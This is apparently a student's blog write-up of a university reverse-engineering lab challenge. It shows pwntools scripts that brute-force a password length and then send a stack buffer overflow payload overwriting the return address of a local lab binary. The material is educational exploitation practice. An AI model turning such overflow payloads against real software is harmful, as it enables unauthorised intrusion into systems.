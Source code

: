 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_5_task_2
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: revamped first challenge where password length is stored in the bss region
categories:
- UNIBUC RE
---
```


revamped first challenge where password length is stored in the bss region

![](/assets/img/2022-09-01-22-22-17.png)

We cannot overwrite the password length so looking at the other protections we need to bypass we only need to overwrite the return address and escape the exit calls until return.

We can insert a \0 after we find out how many characters the password has by testing for password mismatch string in the output. Next we will put our own choice of characters until we reach the stack pointer and return address and insert the right one.
Looking at the checksec we see that it has no PIE so we can call the function as we please.
![](/assets/img/2022-09-01-22-27-48.png)
Let's compute how much space we need
![](/assets/img/2022-09-01-22-33-09.png)
we need 40 bytes of data and then 8 bytes of the address we want.

Step 1 find out the size of the password:

```
from pwn import *

for i in range(1,80):
    io = process("./task2")
    io.recvuntil("Enter password:")
    io.sendline(i*"x")
    text=io.recv(timeout=1)
    if b'length' not in text:
        print(text)
        print(i)
        io.close()
        break
    io.close()

```

Step 2 input the malicious payload:

```
from pwn import *

io = process("./task2")
io.recvuntil("Enter password:")
io.sendline("aaaaaaaa\0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xc6\x11\x40\x00\x00\x00\x00\x00")
io.interactive()

```
Great success
![](/assets/img/2022-09-01-22-39-20.png)